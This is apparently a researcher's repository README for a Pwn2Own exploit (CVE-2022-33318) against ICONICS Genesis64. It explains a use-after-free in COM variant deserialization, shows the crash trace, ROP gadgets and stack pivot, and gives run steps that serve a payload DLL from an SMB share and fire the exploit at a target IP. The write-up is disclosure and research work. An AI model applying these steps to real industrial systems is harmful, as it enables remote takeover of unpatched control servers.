



# Paracosme - CVE-2022-33318 - Remote Code Execution in ICONICS Genesis64
Paracosme is a memory corruption exploit I wrote to target the [Genesis64](https://iconics.com/Products/GENESIS64) suite v10.97.1 made by [ICONICS](https://iconics.com/) to achieve remote code execution.

<p align='center'>

</p>

The exploit was demonstrated during the [Pwn2Own 2022 Miami](https://www.zerodayinitiative.com/blog/2021/10/22/our-ics-themed-pwn2own-contest-returns-to-miami-in-2022) contest that took place at the [S4x22 Conference](https://s4xevents.com/).

<p align='center'>

</p>

The issue scored 9.8 on CVSS and was assigned [CVE-2022-33318](https://nvd.nist.gov/vuln/detail/CVE-2022-33318) / [ZDI-22-1041](https://www.zerodayinitiative.com/advisories/ZDI-22-1041/). It was fixed  and was fixed in [Genesis64 10.97.2](). You can also read the [ICSA-22-202-04](https://www.cisa.gov/uscert/ics/advisories/icsa-22-202-04) advisory as well as ICONICS' [whitepaper on ICONICS Suite Security Vulnerabilities](https://iconics.com/Production/media/SupportFiles/CERT/Whitepaper-Security-Vulnerabilities-V10.pdf).

You can find the exploit code in [src/paracosme.py](src/paracosme.py), a PoC to trigger the crash / verify if you are affected in [src/paracosme-poc.py](src/paracosme-poc.py), and the payload executed in the machine in [src/payload](src/payload).

## Am I affected?

The best way to know if you are affected is to turn on [Page Heap](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/gflags-and-pageheap) for `GenBroker64.exe`, restart the service, attach a debugger to `GenBroker64.exe`, run [paracosme-poc.py](src/paracosme-poc.py) against your server and you should see crashes like in the below:

<p align='center'>

</p>

You need to attach a debugger to the target process to witness the crash otherwise the application ignores it.

## Running the exploit

The exploit has been only tested on Windows but should also be working on Linux platforms:

1. Install `impacket` with: `pip3 install impacket`
1. Turn off any SMB server running on your machine with `sc config lanmanserver start=disabled` and reboot
1. Start an smbserver with `smbserver.py` (part of `impacket`'s examples) with: `python src\smbserver.py -smb2support x bin`
1. Start the exploit with `python src\paracosme.py --target <ip>`

<p align='center'>

</p>

## The exploit

### Overview of the vulnerability

Paracosme exploits a use-after-free issue found in the [GenBroker64](https://docs.iconics.com/V10.96.2/GENESIS64/Help/Apps/WBDT/FrameWorX/GenBroker64_Settings.htm) process to achieve remote code execution on a Windows 21H2 x64 system.

At a high level, the GenBroker64 process listens on the TCP port 38080 and is able to deserialize various packets after a handshake has been done with a client. The isue I found is in the code that handles reading a [VARIANT](https://docs.microsoft.com/en-us/windows/win32/api/oaidl/ns-oaidl-variant) from the network socket. Basically a variant is a type and a value. The function seems well-written at first sight, and takes efforts to only unpacks certain types. This is how it looks like:

```c++
bool CheckVariantType(VARTYPE VarType) {
  if((VarType & 0x2FFF) != VarType) {
    return false;
  }

  switch(VarType & 0xFFF) {
    case VT_EMPTY:
    case VT_NULL:
    case VT_I2:
    case VT_I4:
    case VT_R4:
    case VT_R8:
    case VT_CY:
    case VT_DATE:
    case VT_BSTR:
    case VT_ERROR:
    case VT_BOOL:
    case VT_VARIANT:
    case VT_I1:
    case VT_UI1:
    case VT_UI2:
    case VT_UI4:
    case VT_I8:
    case VT_UI8:
    case VT_INT:
    case VT_UINT:
    case VT_HRESULT:
    case VT_FILETIME:
      return true;
      break;
    default:
      return false;
  }
}

size_t VariantTypeToSize(VARTYPE VarType) {
  switch(VarType) {
    case VT_I1: return 1;
    case VT_UI2: return 2;
    case VT_UI4:
    case VT_INT:
    case VT_UINT:
    case VT_HRESULT:
      return 4;
    case VT_I8:
    case VT_UI8:
    case VT_FILETIME:
      return 8;
    default:
      return 0;
  }
}

void Utils::ReadVariant(tagVARIANT *Variant, Archive_t *Archive, int Level) {
    TRY {
        return ReadVariant_((CArchive *)Archive, (COleVariant *)Variant);
    } CATCH_ALL(e) {
        VariantClear(Variant);
    }
}

HRESULT Utils::ReadVariant_(tagVARIANT *Variant, Archive_t *Archive, int Level) {
  VARTYPE VarType = Archive.ReadUint16();
  if((VarType & VT_ARRAY) != 0) {
      // Special logic to unpack arrays..
      return ..;
  }

  Size = VariantTypeToSize(VarType);
  if (Size) {
      Variant->vt = VarType;
      return Archive.ReadInto(&Variant->decVal.8, Size);
  }

  if(!CheckVariantType(VarType)) {
      // ...
      throw Something();
  }

  return Archive >> Variant;
}
```

The function implements itself the array unpacking, as well as reading simple variant types but if it is receiving something that isn't any of those two, it bails out to the `operator>>` of the archive instance. This archive instance is an object that is provided by the [Microsoft Foundation Class](https://docs.microsoft.com/en-us/cpp/mfc/mfc-desktop-applications) framework that handles serialization & deserialization of various objects. This code is actually open-source and you can find it in `C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Tools\MSVC\14.29.30133\atlmfc\src\mfc\olevar.cpp`, but here it is:

```c++
CArchive& AFXAPI operator>>(CArchive& ar, COleVariant& varSrc) {
  LPVARIANT pSrc = &varSrc;
// ...
  switch(pSrc->vt) {
// ...
    case VT_DISPATCH:
    case VT_UNKNOWN: {
      LPPERSISTSTREAM pPersistStream = NULL;
      CArchiveStream stm(&ar);
      CLSID clsid;
      ar >> clsid.Data1;
      ar >> clsid.Data2;
      ar >> clsid.Data3;
      ar.EnsureRead(&clsid.Data4[0], sizeof clsid.Data4);
      SCODE sc = CoCreateInstance(clsid, NULL,
        CLSCTX_ALL | CLSCTX_REMOTE_SERVER,
        pSrc->vt == VT_UNKNOWN ? IID_IUnknown : IID_IDispatch,
        (void**)&pSrc->punkVal);
      if(sc == E_INVALIDARG) {
        sc = CoCreateInstance(clsid, NULL,
          CLSCTX_ALL & ~CLSCTX_REMOTE_SERVER,
          pSrc->vt == VT_UNKNOWN ? IID_IUnknown : IID_IDispatch,
          (void**)&pSrc->punkVal);
      }
      AfxCheckError(sc);
      TRY {
        sc = pSrc->punkVal->QueryInterface(
          IID_IPersistStream, (void**)&pPersistStream);
        if(FAILED(sc)) {
          sc = pSrc->punkVal->QueryInterface(
            IID_IPersistStreamInit, (void**)&pPersistStream);
        }
        AfxCheckError(sc);
        AfxCheckError(pPersistStream->Load(&stm));
      } CATCH_ALL(e) {
        if(pPersistStream != NULL) {
          pPersistStream->Release();
        }
        pSrc->punkVal->Release();
        THROW_LAST();
      }
      END_CATCH_ALL
      pPersistStream->Release();
    }
    return ar;
  }
}
```

The function is mostly boring because it also has logic to unpack trivial types but what caught my attention was the `VT_DISPATCH` / `VT_UNKNOWN`.

What the hell? You are able to send an arbitrary COM object class ID that implements either [IPersistStream](https://docs.microsoft.com/en-us/windows/win32/api/objidl/nn-objidl-ipersiststream) or [IPersistStreamInit](https://docs.microsoft.com/en-us/windows/win32/api/ocidl/nn-ocidl-ipersiststreaminit) and it will load it by invoking [IPersistream::Load](https://docs.microsoft.com/en-us/windows/win32/api/objidl/nf-objidl-ipersiststream-load) to initialize the object. Although this is surprising and a weird feature I didn't really find this interesting from a security standpoint because I would need to find another bug in a COM object available on stock Windows 10.

Now, let's look closer at the below code:

```c++
SCODE sc = CoCreateInstance(clsid, NULL,
  CLSCTX_ALL | CLSCTX_REMOTE_SERVER,
  pSrc->vt == VT_UNKNOWN ? IID_IUnknown : IID_IDispatch,
  (void**)&pSrc->punkVal); <-------------- [[0]]

if(sc == E_INVALIDARG) {
  sc = CoCreateInstance(clsid, NULL,
    CLSCTX_ALL & ~CLSCTX_REMOTE_SERVER,
    pSrc->vt == VT_UNKNOWN ? IID_IUnknown : IID_IDispatch,
    (void**)&pSrc->punkVal);
}

AfxCheckError(sc);
TRY {
  sc = pSrc->punkVal->QueryInterface(
    IID_IPersistStream, (void**)&pPersistStream);
  if(FAILED(sc)) {
    sc = pSrc->punkVal->QueryInterface(
      IID_IPersistStreamInit, (void**)&pPersistStream);
  }
  AfxCheckError(sc);
  AfxCheckError(pPersistStream->Load(&stm));
} CATCH_ALL(e) {
  if(pPersistStream != NULL) {
    pPersistStream->Release();
  }
  pSrc->punkVal->Release();
  THROW_LAST();
}
```

The [CoCreateInstance](https://docs.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-cocreateinstance) call writes the COM instance pointer directly in `pSrc->punkVal` which is the resulting variant stored in a caller several frames ahead. Then, if [IStreamPersist::Load](https://docs.microsoft.com/en-us/windows/win32/api/objidl/nf-objidl-ipersiststream-load) triggers an exception it is caught and [IUnknown::Release](https://docs.microsoft.com/en-us/windows/win32/api/unknwn/nf-unknwn-iunknown-release) is called on both the [IUnknown](https://docs.microsoft.com/en-us/windows/win32/api/unknwn/nn-unknwn-iunknown) and the [IPersistStream](https://docs.microsoft.com/en-us/windows/win32/api/objidl/nn-objidl-ipersiststream) interfaces which will free the COM object leaving the `pSrc->punkVal` dangling. The other interesting point is after doing that, the catch block rethrow the exception which gets caught by the below code:

```C++
void Utils::ReadVariant(tagVARIANT *Variant, Archive_t *Archive, int Level) {
    TRY {
        return ReadVariant_((CArchive *)Archive, (COleVariant *)Variant);
    } CATCH_ALL(e) {
        VariantClear(Variant);
    }
}
```

At this stage the variant has already been free'd but its type and value haven't been updated / changed so this [VariantClear](https://docs.microsoft.com/en-us/windows/win32/api/oleauto/nf-oleauto-variantclear) calls trigger a second [IUnknown::Release](https://docs.microsoft.com/en-us/windows/win32/api/unknwn/nf-unknwn-iunknown-release) which yield the below crash:

```text
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
OLEAUT32!VarWeekdayName+0x22468:
00007ffa`e620c7f8 488b01          mov     rax,qword ptr [rcx] ds:00000000`2e5a2fd0=????????????????

0:006> kp
 # Child-SP          RetAddr           Call Site
00 00000000`093bad20 00007ffa`e620cb31 OLEAUT32!VarWeekdayName+0x22468
01 00000000`093bad50 00000001`4000c20a OLEAUT32!VariantClear+0x21
02 00000000`093bad80 00007ffa`ccfa10ea GenBroker64+0xc20a
03 00000000`093badb0 00007ffa`ccfa2ca6 VCRUNTIME140_1+0x10ea
04 00000000`093bade0 00007ffa`ccfa3ae5 VCRUNTIME140_1!_NLG_Return2+0x1b56
05 00000000`093baf10 00007ffa`ccfa2258 VCRUNTIME140_1!_NLG_Return2+0x2995
06 00000000`093baf40 00007ffa`ccfa40e9 VCRUNTIME140_1!_NLG_Return2+0x1108
07 00000000`093bafe0 00007ffa`e6ce121f VCRUNTIME140_1!_CxxFrameHandler4+0xa9
08 00000000`093bb050 00007ffa`e6c5d9c2 ntdll!_chkstk+0x19f
09 00000000`093bb080 00007ffa`ccfa3d82 ntdll!RtlUnwindEx+0x522
0a 00000000`093bb790 00007ffa`ccfa1635 VCRUNTIME140_1!_NLG_Return2+0x2c32
0b 00000000`093bb880 00007ffa`ccfa19e6 VCRUNTIME140_1!_NLG_Return2+0x4e5
0c 00000000`093bb920 00007ffa`ccfa232b VCRUNTIME140_1!_NLG_Return2+0x896
0d 00000000`093bbaf0 00007ffa`ccfa40e9 VCRUNTIME140_1!_NLG_Return2+0x11db
0e 00000000`093bbb90 00007ffa`e6ce119f VCRUNTIME140_1!_CxxFrameHandler4+0xa9
0f 00000000`093bbc00 00007ffa`e6caa229 ntdll!_chkstk+0x11f
10 00000000`093bbc30 00007ffa`e6cdfe0e ntdll!RtlRaiseException+0x399
11 00000000`093bc340 00007ffa`e439a839 ntdll!KiUserExceptionDispatcher+0x2e
12 00000000`093bd080 00007ffa`ccfa2753 KERNELBASE!RaiseException+0x69
13 00000000`093bd160 00007ffa`e6ce05e6 VCRUNTIME140_1!_NLG_Return2+0x1603
14 00000000`093bd240 00007ffa`ccc1ab24 ntdll!RtlCaptureContext+0x566
15 00000000`093bf980 00000001`4001c574 mfc140u+0x27ab24
16 00000000`093bfa20 00000001`40023241 GenBroker64+0x1c574
17 00000000`093bfae0 00000001`40025fdc GenBroker64+0x23241
18 00000000`093bfb40 00000001`4008afee GenBroker64+0x25fdc
19 00000000`093bfb80 00000001`4008a499 GenBroker64+0x8afee
1a 00000000`093bfc80 00000001`400858bd GenBroker64+0x8a499
1b 00000000`093bfda0 00000001`400860a9 GenBroker64+0x858bd
1c 00000000`093bfe20 00007ffa`e5187bd4 GenBroker64+0x860a9
1d 00000000`093bff30 00007ffa`e6cace71 KERNEL32!BaseThreadInitThunk+0x14
1e 00000000`093bff60 00000000`00000000 ntdll!RtlUserThreadStart+0x21
```

Woot, pretty awesome, we can trigger the above by instantiating a COM object that implements [IPersistStream](https://docs.microsoft.com/en-us/windows/win32/api/objidl/nn-objidl-ipersiststream) and have it triggers an exception when `Load` is invoked. You can find the trigger code in [paracosme-poc.py](src/paracosme-poc.py) which should crash the `GenBroker64.exe` process on the target. You can also enable page heap on the `GenBroker64.exe` to get a crash instantly.

### Getting RIP
When `VariantClear` is called on the variant, it will dispatch a virtual call to the `Release` method to release it. As this is a virtual call, the function reads a vtable and grabs a function pointer at a fixed offset and invokes it. Before this happens, we race the thread to reclaim the  `ole32!CFileMoniker` instance and replace it with controlled data (see `RacerThread_t`). As a result, we control the vtable pointer and are an instruction away from hijacking RIP. The below shows the corresponding assembly instruction where `@rcx` points to the chunk we have full control over:

```
0:011> u . l3
OLEAUT32!VariantClear+0x20b:
00007ffb`0df751cb  mov     rax,qword ptr [rcx]
00007ffb`0df751ce  mov     rax,qword ptr [rax+10h]
00007ffb`0df751d2  call    qword ptr [00007ffb`0df82660]

0:011> u poi(00007ffb`0df82660)
OLEAUT32!SetErrorInfo+0xec0:
00007ffb`0deffd40  jmp     rax
```

Because we have full control over the reclaimed chunk, we control `@rax`. In order to hijack the control flow, we need to set `@rax` to a pointer to the value we want to hijack `@rip` with. The big issue here is ASLR and we don't have an information disclosure.

Fortunately for us, the module `GenBroker64.exe` doesn't have a dynamic base which means we can use it to find a location that points to an interesting gadget to start our chain.

```
0:012> !dh genbroker64

File Type: EXECUTABLE IMAGE
FILE HEADER VALUES
    8664 machine (X64)
       7 number of sections
616D3B07 time date stamp Mon Oct 18 02:14:47 2021

       0 file pointer to symbol table
       0 number of symbols
      F0 size of optional header
      22 characteristics
            Executable
            App can handle >2gb addresses

OPTIONAL HEADER VALUES
            High entropy VA supported
            NX compatible
            Terminal server aware
```

### ROP

The first gadget that used is a gadget that allows us to fully control `@rip` (without any indirection):

```
0:011> u poi(1400aed18)
00007ffb2137ffe0   sub     rsp,38h
00007ffb2137ffe4   test    rcx,rcx
00007ffb2137ffe7   je      00007ffb`21380015
00007ffb2137ffe9   cmp     qword ptr [rcx+10h],0
00007ffb2137ffee   jne     00007ffb`2137fff4
 ...
00007ffb2137fff4   and     qword ptr [rsp+40h],0
00007ffb2137fffa   mov     rax,qword ptr [rcx+10h]
00007ffb2137fffe   call    qword ptr [mfc140u!__guard_dispatch_icall_fptr (00007ffb`21415b60)]
```

We can place the address of the next gadget at offset `+0x10` in the chunk we reclaim (pointed by `@rcx`) which is great.

The second gadget we use pivots the stack to the reclaimed heap chunk we have full control over:

```
0:008> u 14005bd25
000000014005bd25   mov     esp,ecx
000000014005bd27   cmp     byte ptr [1400fe788],0
000000014005bd2e   je      000000014005bebc
...
000000014005bebc   lea     r11,[rsp+60h]
000000014005bec1   mov     rbx,qword ptr [r11+30h]
000000014005bec5   mov     rbp,qword ptr [r11+38h]
000000014005bec9   mov     rsi,qword ptr [r11+40h]
000000014005becd   mov     rsp,r11
000000014005bed0   pop     r15
000000014005bed2   pop     r14
000000014005bed4   pop     r13
000000014005bed6   pop     r12
000000014005bed8   pop     rdi
000000014005bed9   ret
```

Funny thing is that the address of our heap chunk seems to be located (always?) in a location that fits in a 32-bit integer and that is why `mov esp, ecx` works fine.

At this point we have ROP but we don't have a whole lot of space which was pretty frustrating. I spent a bunch of time trying to align the stars and eventually came up with a sequence of gadgets that invokes `LoadLibraryW` with a remote SMB path pointing to a DLL file that hosts our payload. If you are interested in the details of the chain, check out [paracosme.py@241](src/paracosme.py).

## Authors
* Axel '[0vercl0k](https://twitter.com/0vercl0k)' Souchet
